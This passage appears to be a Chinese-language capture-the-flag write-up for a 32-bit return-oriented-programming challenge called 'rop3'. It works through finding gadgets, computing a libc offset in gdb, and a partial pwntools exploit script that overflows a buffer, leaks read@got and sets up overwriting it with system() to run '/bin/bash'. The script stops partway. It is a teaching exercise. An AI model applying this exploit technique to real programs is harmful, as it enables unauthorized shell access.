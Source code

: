 ![image-20211116203932993](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207032008852.png)

和rop4一样需要先填充140bytes。



##### 找ROP Gadget

```terminal
ROPgadget --binary rop3 --only "pop|ret"
```

![image-20211116211908557](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207032008117.png)



##### 获取偏移offset

```terminal
gdb rop3
......
pwndbg> b main
Breakpoint 1 at 0x80484c9
pwndbg> r
```

![image-20211117112759540](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207032008242.png)

所以`offset=0xf7ef1860-0xf7e44f10=0xac950`



##### 构造payload

```python
# coding=UTF-8

from pwn import *
context(os='linux', arch='i386', log_level='debug')

p = process("./rop3")
code = ELF("./rop3")

read_plt = code.plt['read']
read_got = code.got['read']
write_plt = code.plt['write']
write_got = code.got['write']

bin_bash = "/bin/bash"
pppr = 0x0804855d
offset = 0xAC950

payload = b"A"*140

# 将return address改成read@plt并在.bss区域写入“/bin/bash”（后面send） 

# read(0,.bss,9) 

payload += p32(read_plt)+p32(pppr)+p32(0x0)+p32(code.bss())+p32(0x9)

# 调用write@plt来读取read@got，输出到屏幕

# write(1,read_got,4)

payload += p32(write_plt)+p32(pppr)+p32(0x1)+p32(read_got)+p32(0x4)

# 调用read@plt，read(0,read_got,4)

# 目的是把在read_got的地址写上system()的地址
```